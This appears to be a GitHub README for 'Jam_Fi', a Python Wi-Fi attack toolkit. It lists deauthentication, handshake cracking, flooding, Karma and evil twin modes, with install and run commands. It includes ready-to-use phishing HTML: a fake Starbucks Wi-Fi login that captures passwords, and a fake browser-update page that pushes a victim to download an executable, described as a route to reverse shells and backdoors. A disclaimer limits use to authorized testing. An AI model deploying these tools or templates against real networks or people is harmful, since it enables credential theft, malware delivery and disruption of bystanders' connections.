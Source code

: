 # 💜 Jam_Fi – Wi-Fi Chaos Tool  
by [@ekomsSavior](https://github.com/ekomsSavior)

> Built with love to teach, explore, and cause a little friendly Wi-Fi mischief. 💅

---

## ✨ What is Jam_Fi?

Jam_Fi is a powerful and playful Wi-Fi chaos and red teaming toolkit written in Python for Kali Linux. 
It's designed for educational and cybersecurity research purposes, helping you learn how attackers exploit wireless networks—and how to defend against them.

Jam_Fi includes tools for:

- Evil Twin Access Points ☠️  
- Deauthentication Attacks 💥  
- Handshake Capture & Cracking 🔓  
- Probe Request & Junk Flooding 📡  
- Karma Attacks 🧲  
- MITM HID Injection 💻  
- Fake Login Phishing with Auto-Logging 📄  
- and more...

Whether you're a beginner or advanced user, Jam_Fi gives you a hands-on way to experiment and learn in a lab setting.

---

## 🛠️ Installation

1. Clone the repo:

git clone https://github.com/ekomsSavior/JamFi
cd JamFi
Make sure you have the following installed:

sudo apt update

sudo apt install -y aircrack-ng hostapd dnsmasq dnsspoof python3-scapy

Run the tool:

sudo python3 jam_fi.py

*To Update periodically:
run from the Jam_fi directory on your machine:

git pull

## When Jam_fi is running you'll see:

🔹 1  Scan Clients & APs 🔍
     → Scans for nearby Wi-Fi networks (Access Points) and the clients connected to them using Scapy.

🔹 2  Deauth One Client 💥
     → Sends a deauthentication attack to disconnect a selected client from their Wi-Fi (uses scapy).

🔹 3  Deauth ALL Clients + Capture 🔓
     → Disconnects all clients from known APs and tries to capture WPA/WPA2 handshake packets.

🔹 4  Crack Captured Handshakes 🔓
     → Tries to crack saved WPA handshakes using Aircrack-ng or Hashcat if installed.

🔹 5  Probe Request Spam 📡
     → Broadcasts fake SSIDs as if clients are looking for networks, to create wireless noise.

🔹 6  Junk Packet Flood 💣
     → Sends randomized packets with fake MAC addresses to flood the airwaves and confuse devices.

🔹 7  Karma Responder 🧲
     → Responds to any probe request with a beacon frame, tricking devices into connecting.

🔹 8  Chaos Mode 💃
     → Combo mode! Runs Karma Responder, Junk Flood, and Probe Spam all at once.

🔹 9  View Loot 📁
     → Displays any saved handshakes, captured credentials, or other loot collected in the `loot/` folder.

🔹 🔟 Evil AP 👿
     → Launches a fully connectable Evil Twin Access Point with DNS redirection and phishing login page.

🔹 11 MITM HID Injection 🧠
     → Simulates a man-in-the-middle attack by redirecting users to a fake “driver install” page with mock keystroke injection.

🔹 0  Quit ❌
     → Exits JamFi and returns to your terminal.

## ✨✨✨ Tips & Tricks for Power Users ✨✨✨
Jam_Fi was made to be playful, powerful, and personal. Here's how you can take your JamFi chaos to the next level:

⚡ Performance Tips

💻 Optimize Wireless Interface:

Use an ALFA AWUS1900 or AWUS036ACH for better packet injection and monitoring.

Disable power-saving on your adapter:

sudo iw dev wlan0 set power_save off

Switch channels manually with:

iwconfig wlan0 channel 6
(Replace with the target AP’s channel for better deauth or handshake captures.)

📡 Make Scans Faster:

Edit the scan delay inside jam_fi.py (look for time.sleep() under channel_hopper()).

Lowering sleep delay to 0.2 or less can speed things up, but may increase CPU usage.

👿 Evil AP Customization
🎨 Customize the Captive Portal

Edit this file to make your own fake login page:

loot/login.html

Wanna make it look like Starbucks? Just change the login.html body like this

````html
<h2>Welcome to Starbucks Free Wi-Fi</h2>
<p>Please sign in to continue</p>
<form method="POST" action="/login">
  <input type="text" name="username" placeholder="Email"><br>
  <input type="password" name="password" placeholder="Wi-Fi Password"><br>
  <input type="submit" value="Connect">
</form>

You can view your collected credentials in:

loot/creds.txt

🔐 Advanced Hack: Fake Browser Update + Payload (Optional)

JamFi lets you simulate a fake browser update prompt using pure HTML + JavaScript — no Flipper or Rubber Ducky required!

Once a device connects to your Evil AP, redirect them to a custom update page by editing:

loot/injection.html

Here’s a simple example:

````<!-- loot/injection.html -->
<h2>🔒 Browser Update Required</h2>
<p>To continue browsing, please install the latest security patch.</p>
<button onclick="downloadUpdate()">Update Now</button>

<script>
function downloadUpdate() {
  const a = document.createElement('a');
  a.href = 'http://10.0.0.1/fake_update.exe';  // Customize your payload here
  a.download = 'update.exe';
  document.body.appendChild(a);
  a.click();
}
</script>

Place your payload in the loot/ folder as:

fake_update.exe

You now have a simulated Remote Code Execution (RCE) opportunity: if the victim downloads and runs the file, you can trigger reverse shells, backdoors, or persistence depending on your setup.

⚠️ JamFi does not include any malicious payloads — it's up to you to create safe, controlled experiments in your own lab. This is where red teamers, CTF lovers, and students can shine.



## 💼 The loot/ Folder

This folder contains all the important config and phishing assets used by Evil AP and MITM modes:

File	Purpose

index.html	The default captive portal or phishing homepage

login.html	Fake login page that logs entered usernames & passwords

phish_server.py	Hosts the phishing server & saves form data to creds.txt

creds.txt	Stores submitted login form credentials (auto-created)

hostapd.conf	Used to configure and start the Evil Access Point

dnsmasq.conf	Handles DHCP and DNS for the Evil AP

dnsspoof_hosts	Used by dnsspoof to redirect all DNS to the attacker

hotspot-detect.html	Helps trigger captive portal on iOS/macOS devices

injection.html	Used for MITM HID payload simulation (fake keystroke browser page)

All of these files are auto-generated if missing, so don’t stress if you delete them!

## 🚨 Disclaimer

This tool is for educational and authorized research only.

By using Jam_Fi, you agree that you are responsible for your own actions.

Do not use this tool on networks or devices you don’t have explicit permission to test.

The goal is to educate and empower—not to harm. Use wisely 💜

## 💜 Built With Love

Jam_Fi is a passion project created by @ekomsSavior xoxoxoox sending hugs to all the homies always ✨✨✨

It’s free, open-source, and meant to make learning cybersecurity hands-on, fun, and inclusive for all.

If you like Jam_Fi, give it a ⭐️ on GitHub and share it with your h4x0r and cybersecurity friends!

